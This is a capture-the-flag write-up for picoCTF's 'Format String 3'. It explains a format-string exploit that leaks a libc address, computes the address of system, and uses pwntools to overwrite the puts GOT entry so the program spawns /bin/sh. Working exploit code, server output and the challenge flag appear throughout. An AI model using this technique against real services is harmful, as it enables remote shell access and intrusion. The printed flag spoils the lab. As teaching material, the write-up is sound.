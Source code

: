 # Format String 3

## Description
This program doesn't contain a win function. How can you win?
Download the binary [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download the source [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download libc [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2), download the interpreter [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2). Run the binary with these two files present in the same directory.
nc rhea.picoctf.net 57040

## My Approach
Let's analyze the `format-string-3.c` file to get a grasp of the program. The program's output look particularly like this:
```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x74749008a3f0
```
From the `format-string-3.c` file, the value `0x74749008a3f0` is the address of the `setvbuf`. This address will change everytime we reconnect to the challenge. One noticeable variable is the string `normal_string` has the value "/bin/sh", which can help us easily trigger `system("/bin/sh");` in C program. All we have to do is to somehow change the `puts` function into `system` function. We can do this by overwrite the GOT entry for the `puts` function into `system` function. We will perform this by exploiting format string vulnerability. To read more about this vulnerability, please check this [book](chrome-extension://kdpelmjpfafjppnhbloffcjpeomlnpah/https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Finding the GOT address of the `puts` function
There are many ways to find it. The fastest way is to use command `objdump -d format-string-3` piped with command `grep puts` to disassemble all the functions used in `format-string-3` and find the `puts` function:
```
$ objdump -d format-string-3 | grep puts
0000000000401080 <puts@plt>:
  401084:       f2 ff 25 8d 2f 00 00    bnd jmp *0x2f8d(%rip)        # 404018 <puts@GLIBC_2.2.5>
  40121d:       e8 5e fe ff ff          call   401080 <puts@plt>
  4012f2:       e8 89 fd ff ff          call   401080 <puts@plt>
```
The GOT entry for `puts` is right before the `<puts@GLIBC_2.2.5>`, which is `0x404018`. You can also use tools like `gdb` or `ghidra` to disassemble the `puts` function but I found this way more convenient. You can also use `python3` to find it:
```
# elf = ELF("format-string-3")
# puts_got = elf.got['puts']
# print(hex(puts_got))
```

### Finding the base address of libc
Some functions like `setvbuf` and `system` are located in libc. However, the location of libc in memory is determined by runtime, which explains why we have different address of `setvbuf` each time we reconnect. This process (called ASLR) is used to defend certain type of attacks and the base address of libc changes due to this. To find it, we can subtract the address value of `setvbuf` we get from the server with the actual address of `setvbuf` in libc file. Finding this base address isn't hard but first we have to find the address of `setvbuf` in libc file:
```
$ objdump -d libc.so.6 | grep setvbuf
000000000007a3f0 <_IO_setvbuf@@GLIBC_2.2.5>:
```
Now we can calculate the base address of libc. Remember, this base address changes everytime we reconnect to the server. Using `pwn` library can help the tasks flow smoother:
```
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

def conn():
    # if args.LOCAL:
    #     r = process([exe.path])
    #     if args.DEBUG:
    #         gdb.attach(r)
    # else:
    r = remote("rhea.picoctf.net", 57040)

    return r
p = conn()
p.recvline()
setvbuf_mem = int(p.recvline()[-13:-1],16) # Extracting the address of setvbuf in server's memory and convert it into integer
setvbuf_libc = 0x07a3f0
libc_base = setvbuf_mem-setvbuf_libc
```

### Calculating the address of `system` in memory
To calculate the actual address of `system` from the server, we can add the address of `system` from libc file to the base address of libc. First, the address of `system` in libc file can be found using the same way (in this case, it's 0x4f760):
```
$ objdump -d libc.so.6 | grep system
000000000004f760 <__libc_system@@GLIBC_PRIVATE>:
   4f767:       74 07                   je     4f770 <__libc_system@@GLIBC_PRIVATE+0x10>
```
Now, we calculate:
```
system_libc = 0x4f760
system_mem = libc+system_libc
```

### Overwriting the GOT entry for `puts` into `system`
We're gonna use `fmtstr_payload` to overwrite the value of the GOT entry for `puts`. To do this, we first need to find the offset value. By spamming `%p`, we can see the offset:
```
p=conn()
p.sendline(b'%p.'*50)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x796376407963.0xfbad208b.0x7ffdc650ab60.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
Until the string `%p.` are repeated (which is 0x70252e in hex), there are 38 chunks of `%p.` shows different value. We can adjusting the number repeated downto 38:
```
p=conn()
p.sendline(b'%p.'*38)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x78b5b22a6963.0xfbad208b.0x7ffe74629b80.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
The offset is 38. Put everything together, we can send our payload like this:
```
payload = fmtstr_payload(38, {puts_got: system_mem})
p.sendline(payload)
p.sendline(b"ls")
for i in range(10):
    print(p.recvline())
```
The output looks like this:
```
 python3 solution.py
[*] '/home/zedttxj/test/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
0x404018
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'                                                                                               c               \x8b                                                         \xf0            \x01                       \x00
                                                         \x00aaaaba\x18@@Makefile\n'
b'artifacts.tar.gz\n'
b'flag.txt\n'
b'format-string-3\n'
b'format-string-3.c\n'
b'ld-linux-x86-64.so.2\n'
b'libc.so.6\n'
b'metadata.json\n'
b'profile\n'
```
We successfully execute another `/bin/sh` shell. We also listed all the files in the current directive using `ls` and found out `flag.txt`. By adding `p.interactive()` at the end of the code, you can interact with the shell.
```
p.sendline(payload)
p.interactive()
```
picoCTF{G07_G07?_cf6cb591}
